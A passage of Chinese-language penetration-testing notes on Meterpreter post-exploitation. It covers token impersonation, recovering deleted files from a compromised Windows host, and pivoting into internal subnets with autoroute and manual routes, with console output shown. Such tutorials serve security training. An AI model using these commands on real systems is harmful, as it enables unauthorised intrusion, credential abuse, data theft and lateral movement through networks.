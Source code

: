 使用如下命令进行假冒

```
impersonate_token domain\\name
```

注意是两个反斜杠

## 获取目标主机删除的文件

使用模块

```
post/windows/gather/forensics/recovery_files
```

设定DRIVE盘符和session id，即可进行恢复

## 将MeterpreterShell作为跳板渗透

使用以下命令获取当前子网

```
run get_local_subnets
```

得到如下结果

```
meterpreter > run get_local_subnets 

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
Local subnet: 10.10.10.0/255.255.255.0
```

这里提示可以用post模块中的autoroute来自动配置路由

```
meterpreter > run post/multi/manage/autoroute 

[!] SESSION may not be compatible with this module.
[*] Running module against WIN-ITNJLFM93P3
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.10.10.0/255.255.255.0 from host's routing table.
vc6.Route added to subnet 169.254.0.0/255.255.0.0 from Bluetooth
```

我们也可以手动添加路由，首先需要先将shell放到后台

```
background
```

然后手动添加路由

```
route add 子网 掩码 会话ID
```
